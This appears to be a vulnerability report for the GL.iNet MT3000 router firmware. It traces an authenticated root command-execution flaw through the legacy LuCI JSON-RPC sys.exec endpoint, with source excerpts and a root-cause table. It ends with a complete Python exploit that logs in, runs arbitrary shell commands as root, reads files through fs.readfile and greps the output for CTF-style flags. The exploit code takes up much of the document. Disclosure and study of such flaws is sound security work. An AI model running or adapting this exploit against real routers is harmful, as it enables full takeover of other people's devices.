





Submission Date: 2026.5.11
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An authenticated command execution vulnerability exists in the LuCI JSON-RPC interface of the affected product. Although GL.iNet primarily uses its own `/rpc` endpoint (OpenResty-based), nginx still exposes the legacy LuCI CGI path at `/cgi-bin/luci/rpc` via fcgiwrap. The `rpc_sys()` handler clones the entire `luci.sys` module without any method whitelist and passes it to `jsonrpc.handle()`, which uses reflective table lookup (`rawget()`) to dispatch any requested method name to its corresponding function. Since `luci.sys.exec` is aliased to `luci.util.exec`, which calls `io.popen(command)` without sanitization, an attacker who authenticates with the root password can execute arbitrary shell commands as root and receive stdout directly in the JSON-RPC response.

The reported vulnerable flow is:

```text
Authenticated attacker
  -> POST /cgi-bin/luci/rpc/auth
     {"method":"login", "params":["root","<password>"]}
     // rpc.lua:54 — sysauth=false, no prior session required
     // rpc_auth() → ubus session.login() → returns ubus_rpc_session sid

  -> POST /cgi-bin/luci/rpc/sys?auth=<sid>
     {"method":"exec", "params":["<command>"]}

  -> nginx gl.conf:44
     fastcgi_pass unix:/var/run/fcgiwrap.socket
     // fcgiwrap forks /www/cgi-bin/luci

  -> /www/cgi-bin/luci → luci.sgi.cgi.run()
     → coroutine.create(luci.dispatcher.httpdispatch)
     // dispatcher parses PATH_INFO="/rpc/sys"

  -> dispatcher matches {"rpc","sys"} → rpc.lua:51 entry → call("rpc_sys")
     → authenticator() validates ?auth=<sid> via ubus session.get → root ✓

  -> rpc.lua:172 rpc_sys():
       sys2 = util.clone(luci.sys)       // clones ALL functions, no whitelist
       sys2.net = util.clone(sys.net)
       sys2.wifi = util.clone(sys.wifi)
       jsonrpc.handle(sys2, POST_body)   // reflective dispatch

  -> luci/jsonrpc.lua:36 handle():
       resolve(sys2, "exec")
         → rawget(sys2, "exec")          // table lookup, no allowlist
         → type == "function"            // only checks it's callable
         → returns luci.util.exec

  -> luci/jsonrpc.lua:39 proxy():
       luci.util.copcall(luci.util.exec, "<command>")

  -> luci/util.lua:604 exec():
       io.popen("<command>")             // /bin/sh -c <command> as root
       pp:read("*a")                     // capture stdout
       return data                       // → JSON-RPC response → attacker
```

The nginx configuration in `/etc/nginx/conf.d/gl.conf` exposes the LuCI CGI path via fcgiwrap with no access restrictions (lines 41-45):



```nginx
location /cgi-bin/ {
    include fastcgi_params;
    fastcgi_read_timeout 300;
    fastcgi_pass unix:/var/run/fcgiwrap.socket;
}
```

The CGI entry point at `/www/cgi-bin/luci` (5 lines) boots the LuCI dispatcher:

```lua
#!/usr/bin/lua
require "luci.cacheloader"
require "luci.sgi.cgi"
luci.dispatcher.indexcache = "/tmp/luci-indexcache"
luci.sgi.cgi.run()
```

The controller at `/usr/lib/lua/luci/controller/rpc.lua` registers `rpc/auth` with `sysauth=false` (no prior session required for login) and `rpc/sys` with `sysauth="root"` (line 54):



```lua
function index()
    local rpc = node("rpc")
    rpc.sysauth = "root"
    rpc.sysauth_authenticator = ctrl.authenticator

    entry({"rpc", "sys"},  call("rpc_sys"))
    entry({"rpc", "auth"}, call("rpc_auth")).sysauth = false   // <-- no auth needed
end
```

The `rpc_auth()` function (lines 57-109) authenticates via ubus with system password and returns a `ubus_rpc_session` sid:

```lua
server.login = function(user, pass)
    local login = util.ubus("session", "login", {
        username = user, password = pass,
        timeout  = tonumber(config.sauth.sessiontime)
    })
    if login.ubus_rpc_session then
        return { sid = login.ubus_rpc_session, token = ... }
    end
end
```

The `rpc_sys()` function (lines 165-199) clones the entire `luci.sys` module without any method whitelist and passes it to the JSON-RPC dispatcher:



```lua
function rpc_sys()
    local sys2 = util.clone(sys)            // clones ALL luci.sys functions
          sys2.net = util.clone(sys.net)
          sys2.wifi = util.clone(sys.wifi)

    ltn12.pump.all(jsonrpc.handle(sys2, http.source()), http.write)
end
```

The alias in `/usr/lib/lua/luci/sys.lua` (line 25) binds `exec` directly to `luci.util.exec` with no wrapper or restrictions:

```lua
exec = luci.util.exec
```

The JSON-RPC dispatch mechanism in `/usr/lib/lua/luci/jsonrpc.lua` performs reflective method lookup via `rawget()` — any function key on the passed table becomes a remotely callable RPC method:

```lua
-- jsonrpc.lua:8-24 — resolve method name to function pointer
function resolve(mod, method)
    local path = luci.util.split(method, ".")   // "exec" → {"exec"}
    for j=1, #path-1 do
        mod = rawget(mod, path[j])
    end
    mod = rawget(mod, path[#path])              // rawget(sys2, "exec")
    if type(mod) == "function" then             // only checks it's callable
        return mod                              // returns luci.util.exec
    end
end

-- jsonrpc.lua:26-54 — dispatch incoming request
function handle(tbl, rawsource)
    local json = decode(rawsource)
    local method = resolve(tbl, json.method)    // lookup "exec" on sys2
    if method then
        response = reply(..., proxy(method, unpack(json.params)))
        //                       proxy(luci.util.exec, "id")
    end
end

-- jsonrpc.lua:70-83 — invoke the resolved function
function proxy(method, ...)
    local res = {luci.util.copcall(method, ...)}  // pcall(luci.util.exec, "id")
    return res[1]                                 // return stdout
end
```

The sink in `/usr/lib/lua/luci/util.lua` (lines 603-608) passes the attacker-supplied command string directly to `io.popen()`, which executes via `/bin/sh -c`:



```lua
function exec(command)
    local pp   = io.popen(command)     // /bin/sh -c <command> — as root
    local data = pp:read("*a")         // read all stdout
    pp:close()
    return data                        // returned to caller via JSON-RPC
end
```

Two additional functions provide the same capability without additional restrictions:

```lua
function execi(command)                -- line 611: iterative line reader
    local pp = io.popen(command)
    return pp and function()
        local line = pp:read()
        if not line then pp:close() end
        return line
    end
end

function execl(command)                -- line 626: deprecated, returns array
    local pp = io.popen(command)
    ...
end
```

The complete call stack from HTTP request to shell execution:

```text
POST /cgi-bin/luci/rpc/sys?auth=<sid>  {"method":"exec","params":["id"]}
  │
  ├─ nginx gl.conf:44           fastcgi_pass → fcgiwrap
  ├─ /www/cgi-bin/luci:5        luci.sgi.cgi.run()
  ├─ sgi/cgi.lua:39             coroutine.create(dispatcher.httpdispatch)
  ├─ dispatcher.lua             httpdispatch(r)
  │    ├─ PATH_INFO="/rpc/sys"  → match {"rpc","sys"} → call("rpc_sys")
  │    └─ authenticator()       → ?auth=<sid> → ubus session.get → root ✓
  ├─ rpc.lua:172                sys2 = util.clone(luci.sys)
  │    └─ sys.lua:25            exec = luci.util.exec cloned into sys2
  ├─ rpc.lua:199                jsonrpc.handle(sys2, POST_body)
  │    ├─ jsonrpc.lua:36        resolve(sys2, "exec")
  │    │    └─ jsonrpc.lua:20    rawget(sys2, "exec") → luci.util.exec
  │    └─ jsonrpc.lua:39        proxy(luci.util.exec, "id")
  │         └─ jsonrpc.lua:71    copcall(luci.util.exec, "id")
  ├─ util.lua:604               io.popen("id")  ← /bin/sh -c "id" (root)
  └─ util.lua:605               pp:read("*a") → stdout → attacker
```

The root cause spans six layers of missing defenses:

| Layer | File:Line | Issue |
|-------|-----------|-------|
| nginx | `gl.conf:44` | `/cgi-bin/` exposed via fcgiwrap, no access control |
| controller | `rpc.lua:54` | `rpc/auth.sysauth = false` — login requires no prior session |
| controller | `rpc.lua:172` | `util.clone(sys)` — no method whitelist, all functions exposed |
| sys alias | `sys.lua:25` | `exec = luci.util.exec` — no wrapper or capability check |
| jsonrpc | `jsonrpc.lua:20` | `rawget(tbl, method)` — pure reflection, no allowlist |
| **Sink** | `util.lua:604` | `io.popen(command)` — `/bin/sh -c` with unsanitized input |

```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import base64
import json
import re
import ssl
import subprocess
import urllib.error
import urllib.parse
import urllib.request


FLAG_PATTERNS = [
    re.compile(rb"flag\{.*?\}", re.I | re.S),
    re.compile(rb"CTF\{.*?\}", re.I | re.S),
    re.compile(rb"DASCTF\{.*?\}", re.I | re.S),
]


class GLInetError(RuntimeError):
    pass


class LuCIRPCClient:
    def __init__(self, base_url: str, username: str, password: str, timeout: int = 15, verify_ssl: bool = False):
        self.base_url = base_url.rstrip("/")
        self.username = username
        self.password = password
        self.timeout = timeout
        self.sid: str | None = None
        self._ssl_context = ssl.create_default_context() if verify_ssl else ssl._create_unverified_context()

    def _open(self, req: urllib.request.Request) -> bytes:
        try:
            with urllib.request.urlopen(req, timeout=self.timeout, context=self._ssl_context) as resp:
                return resp.read()
        except urllib.error.HTTPError as exc:
            raise GLInetError(f"HTTP {exc.code}: {exc.read().decode(errors='replace')}") from exc
        except urllib.error.URLError as exc:
            raise GLInetError(f"Connection failed: {exc}") from exc

    def _post_json(self, path: str, obj: dict, auth: bool = False) -> dict:
        if auth:
            path = f"{path}?{urllib.parse.urlencode({'auth': self.ensure_login()})}"
        req = urllib.request.Request(
            f"{self.base_url}{path}",
            data=json.dumps(obj).encode(),
            headers={"Content-Type": "application/json"},
            method="POST",
        )
        raw = self._open(req).decode(errors="replace")
        try:
            return json.loads(raw)
        except json.JSONDecodeError as exc:
            raise GLInetError(f"Unexpected non-JSON response from {path}: {raw[:200]}") from exc

    def login(self) -> str:
        # /cgi-bin/luci/rpc/auth is explicitly registered with sysauth=false in
        # luci.controller.rpc, so it accepts clear username/password JSON-RPC.
        resp = self._post_json(
            "/cgi-bin/luci/rpc/auth",
            {"jsonrpc": "2.0", "id": 1, "method": "login", "params": [self.username, self.password]},
        )
        if resp.get("error"):
            raise GLInetError(f"LuCI login failed: {resp['error']}")
        sid = resp.get("result")
        if not isinstance(sid, str) or not sid:
            raise GLInetError(f"LuCI login did not return a session id: {resp}")
        self.sid = sid
        return sid

    def ensure_login(self) -> str:
        return self.sid or self.login()

    def call(self, module: str, method: str, params: list | None = None):
        resp = self._post_json(
            f"/cgi-bin/luci/rpc/{module}",
            {"jsonrpc": "2.0", "id": 2, "method": method, "params": params or []},
            auth=True,
        )
        if resp.get("error"):
            raise GLInetError(f"LuCI rpc/{module}.{method} failed: {resp['error']}")
        return resp.get("result")

    def exec(self, command: str) -> str:
        result = self.call("sys", "exec", [command])
        return "" if result is None else str(result)

    def readfile(self, path: str) -> bytes:
        result = self.call("fs", "readfile", [path])
        if not isinstance(result, str):
            return b""
        return base64.b64decode(result)


def base_url_host(base_url: str) -> str:
    parsed = urllib.parse.urlparse(base_url)
    if not parsed.hostname:
        raise GLInetError(f"invalid base URL: {base_url}")
    return parsed.hostname


def ping_host(host: str, timeout: int) -> bool:
    cmd = ["ping", "-c", "1", "-W", str(timeout), host]
    return subprocess.run(cmd, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=False).returncode == 0


def find_flags(data: bytes) -> list[str]:
    flags: list[str] = []
    for pattern in FLAG_PATTERNS:
        flags.extend(match.decode(errors="replace") for match in pattern.findall(data))
    return flags


def main() -> int:
    parser = argparse.ArgumentParser(
        description="Authenticated LuCI JSON-RPC sys.exec shell RCE via nginx -> fcgiwrap -> /cgi-bin/luci."
    )
    parser.add_argument("--base-url", default="http://192.168.8.1")
    parser.add_argument("--username", default="root")
    parser.add_argument("--password", default="12345678Q!")
    parser.add_argument(
        "--command",
        default="cat /f* /root/f* /tmp/f* 2>/dev/null ||touch /tmp/poc21_luci_rpc_sys_exec_rce",
        help="Shell command executed through luci.sys.exec/io.popen",
    )
    parser.add_argument("--read-file", help="Optionally read a file through rpc/fs.readfile after command execution")
    parser.add_argument("--timeout", type=int, default=15)
    parser.add_argument("--ping-timeout", type=int, default=1)
    parser.add_argument("--skip-ping", action="store_true", help="Do not enforce the pre-exploitation ICMP gate")
    parser.add_argument("--verify-ssl", action="store_true")
    args = parser.parse_args()

    host = base_url_host(args.base_url)
    if not args.skip_ping and not ping_host(host, args.ping_timeout):
        raise GLInetError(f"pre-exploitation ping failed for {host}; target not reached")

    client = LuCIRPCClient(args.base_url, args.username, args.password, timeout=args.timeout, verify_ssl=args.verify_ssl)
    sid = client.login()
    output = client.exec(args.command)

    print("[+] target      :", args.base_url)
    print("[+] endpoint    : /cgi-bin/luci/rpc/{auth,sys}")
    print("[+] auth flow   : rpc/auth.login -> rpc/sys?auth=<sid>")
    print("[+] username    :", args.username)
    print("[+] sid         :", sid)
    print("[+] method      : sys.exec")
    print("[+] command     :", args.command)
    print("[+] command output:")
    print(output)

    combined = output.encode(errors="replace")

    if args.read_file:
        data = client.readfile(args.read_file)
        print("[+] method      : fs.readfile")
        print("[+] read file   :", args.read_file)
        print("[+] file bytes  :", len(data))
        print(data.decode(errors="replace"))
        combined += b"\n" + data

    flags = find_flags(combined)
    if flags:
        print("[+] flags:")
        for flag in flags:
            print(flag)
    else:
        print("[-] no flag-like tokens found")

    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

The exploitation is shown below.


